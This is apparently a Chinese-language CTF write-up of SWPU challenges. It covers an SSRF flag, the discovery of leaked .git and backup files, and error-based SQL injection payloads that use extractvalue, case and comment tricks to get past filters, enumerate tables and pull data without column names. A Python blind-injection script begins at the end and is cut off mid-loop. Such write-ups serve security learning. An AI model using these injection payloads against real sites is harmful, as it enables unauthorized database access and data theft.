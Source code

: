 ## baby_ssrf

### flag1

`POST  url=http://sudo.cc/flag.php  -> swpu{werefgou-`

### flag2

访问 /.git 得到，/.svn是迷惑选项

### flag3

源码泄露扫描出www.zip/wwwroot.zip/backup.sql，flag在/wwwroot.zip下的flag3.txt中

## sql2

extractvalue报错注入，大小写绕过关键词过滤，/**/绕过空格过滤

```sql

?wllm='/**/And/**/extractvalue(rand(),Concat(CHAR(126),user(),CHAR(126)))%23
```

```sql
/?wllm='/**/And/**/extractvalue(rand(),Concat(CHAR(126),(Select/**/Group_Concat(database_name)/**/From/**/mysql.innodb_table_stats),CHAR(126)))%23
# XPATH syntax error: '~mysql,test_db,test_db~'
```

```sql
/?wllm='/**/And/**/extractvalue(rand(),Concat(CHAR(126),(Select/**/Group_Concat(database_name)/**/From/**/mysql.innodb_table_stats),CHAR(126)))%23
# '~gtid_slave_pos,test_tb,users~'
```

无列名注入

```sql
/?wllm='/**/And/**/extractvalue(rand(),Concat(CHAR(126),(Select/**/`2`/**/From(Select/**/1,2/**/Union/**/Select/**/*/**/From/**/test_tb)a/**/Limit/**/1,1),CHAR(126)))%23  
# XPATH syntax error: '~swpu{aba16000-448a-4bfb-874f-7d'

/?wllm='/**/And/**/extractvalue(rand(),Concat(CHAR(126),(Select/**/Reverse(`2`)/**/From(Select/**/1,2/**/Union/**/Select/**/*/**/From/**/test_tb)a/**/Limit/**/1,1),CHAR(126)))%23

XPATH syntax error: '~}69e2a4f858d7-f478-bfb4-a844-00'
```

其实盲注也是可以的，具体见sql3

## sql3

```python
import requests
import time
# swpu_wllm_boolsql
# gtid_slave_pos,flag,username
# id,username,password,id,flag

def inject(url):
 name = ''

 for i in range(1,100000):
  low = 32
  high = 128
  mid = (low + high) // 2
  while low < high:
```